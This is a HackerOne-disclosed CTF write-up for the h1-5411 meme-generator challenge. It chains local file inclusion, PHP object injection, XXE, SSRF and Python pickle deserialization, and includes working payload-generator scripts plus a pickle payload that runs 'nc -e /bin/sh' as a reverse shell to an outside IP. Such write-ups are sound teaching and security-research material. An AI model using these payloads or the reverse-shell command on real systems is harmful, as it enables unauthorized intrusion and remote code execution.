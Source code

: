 # Solution for h15411's CTF challenge

## Report Details
- **Report ID**: 415222
- **URL**: https://hackerone.com/reports/415222
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2018-09-27T09:27:19.886Z
- **Disclosed**: 2018-10-22T16:26:40.190Z

## Reporter
- **Username**: herrera
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: h1-5411-ctf

## Vulnerability Information
## Baby steps
Earlier today a friend tipped me off about an ongoing CTF challenge that was being run by HackerOne and would get the first ten winners a ticket to participate in #h15411, which will be a live-hacking event happening in Buenos Aires.

This immediately caught my attention and I decided to take a look to see how far I could get.

The first step was decoding the QR code that was in the tweet announcing the challenge (https://twitter.com/Hacker0x01/status/1044974142150373378) and then decoding the hexadecimal value obtained, which in turn gave me the URL of the challenge.

## Game on!

After accessing https://h1-5411.h1ctf.com, it's possible to notice that this application lets you generate memes from six templates which are divided into two different types. Three of which are of the type image and the other three, of type text. The template hidden input also caught my attention, which was apparently being used to load these templates from different files.

This was screaming "PATH TRAVERSAL! LFI!" which was indeed the first way I tried to tackle the challenge (type = image, template=../../../../../../etc/passwd) and needlessly to say I was rick rolled :´(

Shortly after, I tried to change the type to "text" instead of using the type "image" and it worked! I now had the ability to read local files from the server, a vulnerability known as LFI, short for Local File Inclusion.

After downloading all the files from /var/www/html/ I started to analyze the code by first looking into /api/import_memes_2.0.php (because I noticed that in its code it utilized unserialize, which, in the past, has been the source of many vulnerabilities in all sorts of web applications).

I quickly realized that it was possible to upload a file containing serialized code encoded in base64 through import_memes_2.0.php and that it would be saved in the session. Also, looking into /includes/classes.php, there was a class named ConfigFile that had the magic function __toString() which called $this->parse() and then finally tried to load XML from a string that it got from its constructor. This is perfect for an Object Injection attack, which by leveraging the magic method __toString() will allow me to control the value passed to the constructor of the ConfigFile class and then perform a XML External Entity attack when the parse() method is called.

## Coding time

The next step was to create a small php program to generate valid serialized code using a placeholder as the payload.

```
<?php
	require_once("../includes/config.php");

	$config = new ConfigFile("data:text/html,placeholder");
	$payload = serialize([$config]);

	// a:1:{i:0;O:10:"ConfigFile":1:{s:10:"config_raw";s:11:"placeholder";}}
	echo $payload;
?>
```
Then, using python, I created another program that takes a URL as the argument and creates a valid file ready to be uploaded to exploit the XXE vulnerability in the application.

After all my attempts to get RCE using the XXE vulnerability failed, my next big bet was in a SSRF attack. I finished coding the program below and then it was a matter of time to scan the internal network and find the local server running in the port 1337.

```
import base64, sys

url = sys.argv[1]

xml = """<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE xxx [ <!ELEMENT xxx ANY >
<!ENTITY payload SYSTEM "php://filter/read=convert.base64-encode/resource=""" + url + """" >]>
<test>
    <toptext>&payload;</toptext>
</test>""";

xml_length = len(xml);

start = 'a:1:{i:0;O:10:"ConfigFile":1:{s:10:"config_raw";s:' + str(xml_length) + ':"'
end   = '";}}'

all = start+xml+end
encoded = base64.b64encode(all)

f = open("payload.memepak", "w")
f.write(encoded)
```

## Reading is fundamental

By reading the documentation API I was able to discover that setting the debug parameter to one would activate the debug mode.

Then, still following the documentation, I made  a request to http://127.0.0.1:1337/status?debug=1 and it returned base64 encoded debug information, that when decoded looked like a pickle object. Shortly after, I made a request to http://127.0.0.1:1337/update-status?debug=1 which said that the status parameter was missing. I sent the request again, but now with the missing status parameter and the response was that it contained an incorrect padding. This got me thinking and then I sent a new request to http://127.0.0.1:1337/update-status?debug=1&status=MSsx (MSsx being 1+1 encoded in base64) and it returned a new debug message about not being able to find MARK.

A quick search in Google and I confirmed my suspicion that this indeed was related to a Pickle Object Serialization vulnerability. Using the template published by mgeeky (https://gist.github.com/mgeeky/cbc7017986b2ec3e247aab0b01a9edcd), I was able to create a payload that would exploit the vulnerability and force the challenge's server to establish a reverse shell with my server.

```
import cPickle
import sys
import base64

COMMAND = "nc -e /bin/sh 111.111.111.11 1337"

class PickleRce(object):
    def __reduce__(self):
        import os
        return (os.system,(COMMAND,))

print base64.b64encode(cPickle.dumps(PickleRce()))
```
## Last words
Finally, after getting a shell, I executed `ls` and  `cat flag.txt` and got the flag:
**flag{cha1n1ng_bugs_f0r_fun_4nd_pr0f1t?_or_rep0rt_an_LF1}**

Thanks for the challenge and for reading! I had a lot of fun solving it.

## Impact

The attacker could achieve remote code execution which would allow him to get the flag that will get him invited to the #h15411 :)

## Attachments
No attachments
